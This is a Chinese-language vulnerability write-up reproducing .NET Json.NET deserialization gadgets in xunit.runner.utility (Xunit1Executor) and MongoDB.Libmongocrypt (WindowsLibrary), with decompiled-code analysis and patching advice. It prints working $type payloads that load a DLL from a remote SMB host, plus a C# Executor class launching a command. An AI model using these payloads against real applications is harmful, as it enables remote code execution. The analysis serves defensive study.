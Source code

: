 
Xunit1Executor 和 MongoDB 反序列化漏洞复现和分析

- - -

# Xunit1Executor 和 MongoDB 反序列化漏洞复现和分析

## 一、Xunit1Executor

Xunit.Net 是一款 .NET 平台免费开源的单元测试框架，常用于并行测试和数据驱动测试。目前支持 .Net Framework、.Net Core、.Net Standard、UWP、Xamarin 等平台。这个组件中的 WindowsLibrary 类在反序列化时可加载 UNC 路径下的非托管 dll，从而触发任意命令执行漏洞，下面我们将详细介绍漏洞原理及复现过程。

### 漏洞复现

xunit 组件可以在 Nuget 上获取，打开项目包管理器，浏览名为“xunit.runner.utility”的包，点击安装即可。接着使用 Ysoserial 生成 Payload，具体 Payload 代码如下所示

```plain
{
    '$type':'Xunit.Xunit1Executor, xunit.runner.utility.net',
    'useAppDomain':true,
    'testAssemblyFileName':'\\192.168.101.86\\Poc\\xunit.dll'
}
```

上述代码通过远程SMB协议建立主机之间的通信后，再加载基于C#实现的托管xunit.dll文件，而xunit.dll实现上需要Executor类

```plain
public class Executor
    {
        public Executor(string poc)
        {
            ProcessStartInfo psi = new ProcessStartInfo("cmd.exe", "/c calc.exe");
            Process proc = new Process();
            proc.StartInfo = psi;
            proc.Start();
        }
    }
```

最后调用 JSON.Net 反序列化执行，虽然抛出异常，但不影响触发命令执行，如图所示。

[![](assets/1706496883-cc64dbbd650f067f2f7df6fd237ffb06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125123928-b954547a-bb3b-1.png)

### 漏洞分析

反编译打开 xunit.runner.utility.dll 分析源代码，快速定位到 Xunit1Executor 类，该类创建对象时会调用默认的构造方法，

[![](assets/1706496883-262fa1a4a5cd8adf7db83dd85f4cc3b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125123945-c3ae291e-bb3b-1.png)

图中 Xunit1Executor 构造方法创建一个新的 AppDomain 用来加载单元测试用例提供的.NET 程序集。程序集的路径由 Xunit1Executor.GetXunitAssemblyPath 方法获取，如图所示。

[![](assets/1706496883-220bf6f5a580691f859fba86d70e9e4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125123955-c973d8d0-bb3b-1.png)

从代码实现上可以看出加载的文件名为“xunit.dll”，因此我们在反序列化构建 Payload 时也需要提供同名的 dll 文件。接着构造方法里使用 CreateObject 方法从 xunit.dll 程序集中创建类型为 Xunit.Sdk.Executor 的对象

```plain
this.executor = this.CreateObject("Xunit.Sdk.Executor", new object[]
{
    testAssemblyFileName
});
```

跟进 CreateObject 方法的定义，发现是定义在 IAppDomainManager 接口中，AppDomainManager\_AppDomain 类实现了 IAppDomainManager 接口，也重写了 CreateObject 方法，如图所示。

[![](assets/1706496883-22efad294e8965dfbb2e8c0008cf8f74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124009-d23b28a6-bb3b-1.png)

内部还是调用了 AppDomain.CreateInstanceAndUnwrap 方法在 AppDomain 中创建了 Xunit.Sdk.Executor 对象，AppDomain.CreateInstanceAndUnwrap 方法可以通过反射程序集的方式创建对象从而执行命令。

## 二、MongoDB

MongoDB.Libmongocrypt 是 MongoDB 的一个库，集成于 MongoDB .NET 版本的驱动程序，常用于提供端到端的加密支持，达到保护 MongoDB 数据在传输和存储时的安全性。这个组件中的 WindowsLibrary 类在反序列化时可加载 UNC 路径下的非托管 dll，从而触发任意命令执行漏洞，

### 漏洞复现

这个组件包可以在 Nuget 上获取，打开项目包管理器，浏览名为“MongoDB.Libmongocrypt”的包，点击安装即可。我们使用 Ysoserial 生成 Payload，具体 Payload 代码如下所示

```plain
{
    '$type':'MongoDB.Libmongocrypt.LibraryLoader+WindowsLibrary, MongoDB.Libmongocrypt, PublicKeyToken=null',
    'path':'\\192.168.101.86\\Poc\\calc.dll'
}
```

上述代码通过远程 SMB 协议建立主机之间的通信后，再加载基于 C++ 实现的非托管 calc.dll 文件，最后 JSON.Net 反序列化执行成功触发命令执行

[![](assets/1706496883-cc2eaeb0dbaac7a545ebb4d50854ddec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124021-d934f344-bb3b-1.png)

### 漏洞分析

反编译打开 MongoDB.Libmongocrypt.dll 分析源代码，快速定位到 WindowsLibrary 类，该类创建对象时会调用其构造方法并传入一个字符型参数 path，如图所示。

[![](assets/1706496883-a3db6f7811c1d200a2b96b95ac5ee92a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124033-e01bcaca-bb3b-1.png)

我们观察到内部通过 LibraryLoader.WindowsLibrary.LoadLibrary 方法加载参数 path，查看 LoadLibrary 的声明发现就是调用 Windows API LoadLibrary 函数，因此可以执行非托管 dll，如图所示

[![](assets/1706496883-0a366f1ed0e82e291d788b91bd70cfe8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124043-e5fa87a6-bb3b-1.png)

至此两个.NET 组件出现的漏洞分析完毕，

## 修复建议

以下是一些修复.NET 开源组件漏洞的建议和防御措施。持续关注各个开源组件的安全更新和发布，及时升级到最新的版本。开源社区通常会修复漏洞并发布更新，使用最新版本能够有效地防范已知漏洞。  
针对开源组件提供的配置项，仔细审查并按照最佳实践进行安全配置。避免过于开放的默认设置，尽可能限制组件的权限和功能范围，减少潜在攻击面。

## 小结

本文详细介绍了 2 个.NET 开源组件的安全漏洞，这些漏洞的存在可能导致严重的安全风险，包括远程代码执行等。因此，开发者在使用这些组件时需保持高度警惕，采取积极的安全措施来降低潜在风险。建议开发者密切关注组件的安全公告，及时升级到修复漏洞的最新版本，并按照最佳实践进行安全配置和使用。此外，定期进行安全审查，确保项目中使用的组件不受已知漏洞的影响，有助于提高应用系统的整体安全性。
